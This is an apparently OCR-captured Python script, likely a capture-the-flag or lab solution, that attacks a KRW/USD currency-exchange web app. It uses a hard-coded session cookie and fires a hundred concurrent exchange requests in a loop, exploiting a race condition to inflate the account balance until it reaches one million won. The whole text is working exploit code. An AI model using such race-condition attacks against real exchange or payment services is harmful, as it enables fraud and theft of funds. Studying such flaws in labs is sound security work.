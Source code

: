 ```py
    "signup": "/user/signup",
    "signin": "/user/signin",
    "krwCreate": "/cash/krw/bank/create",
    "usdCreate": "/cash/usd/bank/create",
    "exchange": "/cash/exchange",
    "krw_getBalance": "/cash/krw/getBalance",
    "usd_getBalance": "/cash/usd/getBalance"
}

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Cookie': 'JSESSIONID=408697BCE11105E8BB4E9CAE18DB8A08'
}

class MyClass:
    def __init__(self) -> None:
        self._session = aiohttp.ClientSession()

    async def exchange(self, src, dst, amount) -> None:
        data = {
            "srcCurrency": src,
            "dstCurrency": dst,
            "amount": amount
        }
        async with self._session.post(url+API['exchange'], data = data, headers = headers) as res:
            text = await res.text()

    async def get_krw_balance(self) -> float:
        async with self._session.get(url+API['krw_getBalance'], headers = headers) as res:
            text = await res.text()
            m = re.search(r'Balance:</h3><h3>(\d*.\d*)</h3>', text)
            balance = m.groups()[0]

            return float(balance)

    async def get_usd_balance(self) -> float:
        async with self._session.get(url+API['usd_getBalance'], headers = headers) as res:
            text = await res.text()
            m = re.search(r'Balance:</h3><h3>(\d*.\d*)</h3>', text)
            balance = m.groups()[0]

            return math.floor(float(balance))

    async def close(self) -> None:
        await self._session.close()

async def main():
    myClass = MyClass()

    while True:
        tasks = [myClass.exchange("KRW", "USD", "100") for _ in range(100)]
        await asyncio.gather(*tasks)
        usd_balance = await myClass.get_usd_balance()
        await myClass.exchange("USD", "KRW", str(usd_balance))
        krw_balance = await myClass.get_krw_balance()
        print(krw_balance)
        if krw_balance >= 1000000.0:
            break
    await myClass.close()

if __name__ == "__main__":
    asyncio.run(main())
```